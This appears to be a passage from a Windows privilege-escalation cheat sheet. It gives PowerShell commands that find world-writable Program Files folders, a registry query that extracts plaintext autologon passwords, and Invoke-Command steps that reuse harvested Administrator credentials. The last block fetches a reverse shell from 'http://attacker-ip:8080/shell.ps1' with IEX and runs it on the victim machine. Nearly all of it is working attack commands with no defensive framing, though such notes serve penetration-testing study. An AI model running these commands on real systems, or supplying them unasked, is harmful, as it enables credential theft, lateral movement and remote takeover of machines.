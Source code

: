 **Powershell**

```
Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'Everyone'} } catch {}} 

Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'BUILTIN\Users'} } catch {}}
```

#### Autologon

Sometimes the machine stores default credentials in plain text in the registry. We can query them with the below command

```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```

These credentials can then be used in different methods:

**Method one: Powershell run as**

If you have got authentication credentials for a machine and you want to execute commands remotely, then execute the below powershell. Make sure to substitute \[open-port]

```
PS > $pass = convertto-securestring -AsPlainText -Force -String 'pass'; 

PS > $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist 'domainname\username',$pass; 

PS > Invoke-Command -ComputerName computer-name -Credential $cred -Port 5985 -ScriptBlock { command }
```

The next example will execute use the credentials obtained and retrieve a shell from the attacker machine `shell.ps` that could be `nishasng shell` and you should receive the shell back from the vicitim machine to your listener.

```
PS C:\inetpub\wwwroot\internal-01\log> $username = "pentesting.local\Administrator" 

PS C:\inetpub\wwwroot\internal-01\log> $password = "3130457h31186feef962f597711faddb"

PS C:\inetpub\wwwroot\internal-01\log> $securestring = New-Object -TypeName System.Security.SecureString 

PS C:\inetpub\wwwroot\internal-01\log> $password.ToCharArray() | ForEach-Object {$securestring.AppendChar($_)} 

PS C:\inetpub\wwwroot\internal-01\log> $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $securestring 

PS C:\inetpub\wwwroot\internal-01\log> Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://attacker-ip:8080/shell.ps1') } -Credential $cred -Computer localhost
```
